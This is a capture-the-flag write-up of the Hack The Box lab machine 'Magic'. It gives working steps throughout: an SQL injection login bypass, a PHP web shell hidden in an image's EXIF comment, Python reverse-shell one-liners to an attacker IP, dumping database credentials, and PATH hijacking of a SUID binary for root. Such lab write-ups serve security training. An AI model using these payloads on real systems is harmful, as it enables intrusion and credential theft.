









# Magic

* * *
## 1- Overview

   

Retire: 22 August 2020      
Writeup: 22 August 2020

### Summary

**2- [Enumeration](https://github.com/flast101/HTB-writeups/tree/master/magic#2--enumeration)**   
2.1- [Nmap Scan](https://github.com/flast101/HTB-writeups/tree/master/magic#21--nmap-scan)   
2.2- [Web Site Browsing](https://github.com/flast101/HTB-writeups/tree/master/magic#22--web-site-browsing)   
2.3- [Getting in](https://github.com/flast101/HTB-writeups/tree/master/magic#23--foothold)   
2.4- [Reverse Shell](https://github.com/flast101/HTB-writeups/tree/master/magic#24--reverse-shell)   

**3- [Privilege Escalation](https://github.com/flast101/HTB-writeups/tree/master/magic#3--privilege-escalation)**     
3.1- [Getting user.txt](https://github.com/flast101/HTB-writeups/tree/master/magic#31--getting-usertxt)   
3.2- [Privesc to Root](https://github.com/flast101/HTB-writeups/tree/master/magic#32--privesc-to-root)   

* * *
## 2- Enumeration
### 2.1- Nmap Scan

First things first, we begin with a **`nmap`** scan:
~~~
root@kali:~# nmap --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.181

Nmap scan report for 10.10.10.185
Host is up, received user-set (0.035s latency).
Scanned at 2020-05-04 16:47:40 CEST for 501s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio

Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/4%OT=22%CT=1%CU=42685%PV=Y%DS=2%DC=T%G=Y%TM=5EB02D01
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 43.033 days (since Sun Mar 22 15:08:12 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   33.87 ms 10.10.14.1
2   34.02 ms 10.10.10.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  4 16:56:01 2020 -- 1 IP address (1 host up) scanned in 501.17 seconds
~~~

Nothing special here, we find SSH on port 22 and a web site on port 80.

### 2.2- Web Site Browsing

Let's have a look on the web site:

A nice web site, which I thought is on the theme "A Kind Of Magic", a master piece of the group Queen, of which I'm a fan. Actually I'm wrong and it's not but that's not the subject ;-)    

First of all, we can take a look to [Wappalyzer](https://www.wappalyzer.com) (if we have this browser add-on installed) to check if we get more information than we got from **`nmap`**:

We also see on the bottom left of the page that we can upload images if we are able to login. Clicking on the login link, we arrive on the following page:    

## 2.3- Getting in

Usual creds and brute force don't work here. We have to find something else.   

We can check if it is subject to SQL injection. We can google the words "SQL injection authentication cheat sheet", and we find the [pentestlab cheat sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) among others.   

As this is probably a **`mysql`** database, we can try a simple **`' or 1=1-- -`** as username and whatever as password:        

It works and we are on the upload page:    

### 2.4- Reverse shell

We just found a page to upload a file. It might be the winning number. Let's give it a try...    

If we try to upload a php file, there is a pop up:

First thing done: we know the format to use to be able to upload a file. The second one id know where the file will be stored.   

Let's see what we get when running Dirbuster:

The most obvious url should be [http://10.10.10.185/images/uploads](http://10.10.10.185/images/uploads).    
However, according to the main page of the site (when displayed right-click on an images to get their location), it could be [http://10.10.10.185/images/fulls](http://10.10.10.185/images/ful-ls) as well.

We ticked the first 2 boxes. Now, we must find how we can make the target execute code with an image file.

Just changing the file extension is not enough. But while googling everything about hiding a reverse shell code in an image, you will find a lot of information and hopefully read about **`exiftool`**.    
[ExifTool](https://github.com/exiftool/exiftool) is a customizable set of Perl modules plus a full-featured
command-line application for reading and writing meta information in a wide
variety of files including image files.

As an example, googling "bypass upload image file shell code" you may find this Github repo useful: [https://github.com/xapax/security/blob/master/bypass_image_upload.md](https://github.com/xapax/security/blob/master/bypass_image_upload.md)    
As writen in this repo, you can use the following command to embed php code in an image: **`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`**, and then rename the file _**lo.jpg**_ to _**lo.php.jpg**_

What did happen here ? I didn't go in deep details of this mechanism, but here is what I know.     
PHP has a function called "exif_read_data" which allows it to read the header data of image files. It is used extensively in many different plug-ins and tools. It is not an exploit but a feature.      
In this case, the php code is writen in the comment section of the exif header where metadata can be stored. It is then executed when trying to display the image.
It's a kind of magic but it works well. Let me show you.

Let's give it  try with a random image _**"myimage.png"**_
~~~
root@kali:~# exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' myimage.png
    1 image files updated
root@kali:~/Documents/results/10.10.10.185/exploit# mv myimage.png myimage.php.png
~~~

Now, see the comment section (it does not work if not renamed):
~~~
root@kali:~# exiftool myimage.php.png
ExifTool Version Number         : 12.04
File Name                       : myimage.php.png
Directory                       : .
File Size                       : 1174 kB
File Modification Date/Time     : 2020:08:21 18:58:49+02:00
File Access Date/Time           : 2020:08:21 19:01:23+02:00
File Inode Change Date/Time     : 2020:08:21 19:01:09+02:00
File Permissions                : rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 976
Image Height                    : 548
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Adam7 Interlace
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : <?php system($_REQUEST[cmd]); ?>
Image Size                      : 976x548
Megapixels                      : 0.535
~~~

Then, upload this file. You should get something like this:

We just have to use the url where the file is located in our web brower and add the command we want like this:
~~~
http://10.10.10.185/images/uploads/myimage.php.png?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~
Of course, the command we want is a reverse shell. Here, we use a simple python reverse shell. A bash reverse shell doesn't work due to characters such as "&" I guess.   
In the meanwhile, we set up a **`netcat`** listener on our attacking machine, and we have a shell.

At this point, the shell is not good. We can use the following commands to improve our shell:
1. `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `Ctrl+Z`
3. `$ stty raw -echo`
4. `$ fg`

_Side note: python is not installed, that's why we use **python3** here._

We should now have a real shell (interactive, auto-completion, no exit from the shell when killing a process with Ctrl+C...). The screen should look like this:

For more information about hiding code in an image file with **`exiftool`**, another good resource is [here](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/).

* * *
## 3- Privilege escalation
### 3.1- Getting user.txt

We had a reverse shell but as user **"www-data"**, we can't do much. We can get the _**user.txt**_ flag yet, the show must go on.   

Looking immediately around, we don't find anything particular.    

We can run **`linPEAS`** to try to find more:
- Set up a web server on your attacking machine: **`root@kali:~/ftphome# python3 -m http.server 80`**
- Download **`linPEAS`**, make it executable and run it:

~~~
www-data@ubuntu:/var/www/Magic$ wget http://10.10.14.20/linpeas.sh
--2020-08-22 00:43:55--  http://10.10.14.20/linpeas.sh
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160507 (157K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 156.75K  --.-KB/s    in 0.1s    

2020-08-22 00:43:56 (1.03 MB/s) - 'linpeas.sh' saved [160507/160507]

www-data@ubuntu:/var/www/Magic$ chmod +x linpeas.sh
www-data@ubuntu:/var/www/Magic$ ./linpeas.sh
~~~

There is not a lot of interesting/easy stuff, but here is what we find:
- Interesting users:
uid=0(root) gid=0(root) groups=0(root)
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
- There is a mysql database (as we already knew), the user **"theseus"** is a user of this database, and db5 file is located in the _**/var/www/magic**_ directory:

Let's have a closer look to this file:

~~~
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
(...)
~~~

We could connect to the database and explore it but a dump gives us averything we need:

~~~
www-data@ubuntu:/var/www/Magic$ mysqldump Magic -utheseus -piamkingtheseus
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;

(...)

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');

(...)

-- Dump completed on 2020-08-22  1:45:12
~~~

We found some creds with a user **"admin"** and a password **"Th3s3usW4sK1ng"**.    

Trying to log with what we found, we succeed with the creds **theseus:Th3s3usW4sK1ng**:   

### 3.2- Privesc to Root

Rerunning **`linPeas`** with **"theseus"**, we find the binary file -**/bin/sysinfo**_ which has an SUID flag and is readable:
~~~~
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/bin/sysinfo

[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
~~~~

We can use **`strings`** to get more information about what this binary actually runs. Here is the interesting part of the result:
~~~~
theseus@ubuntu:/var/www/Magic$ strings /bin/sysinfo
(...)
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
(...)
~~~~

It seems this binary execute other binaries as root: lshw, fdisk, cat, and free.

How can we use this ? The plan is to make our own binary with our code (a reverse shell), named "free" for example, and make it being executed by sysinfo.   

1. We write the following content in a file named _**free**_ :
~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
~~~

2. Transfer it on the target and make it executable:
~~~
theseus@ubuntu:/var/tmp$ wget http://10.10.14.23/free
theseus@ubuntu:/var/tmp$ chmod 755 free
~~~

3. Prepend the current directory or where the new _**"free"**_ executable is located to the PATH variable (this is the important part of this privilege escalation process), and run _**sysinfo**_ to gain a root shell:
~~~
theseus@ubuntu:/var/tmp$ PATH=/var/tmp:$PATH
theseus@ubuntu:/var/tmp$ sysinfo
~~~

4. Previously to run the executable, we had set a listener on the kali machine and we have a root shell:
~~~
root@kali:~# nc -nlvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:52976.
root@ubuntu:/var/tmp# whoami
whoami
root
~~~

And voilà ! We are the champions ;-)

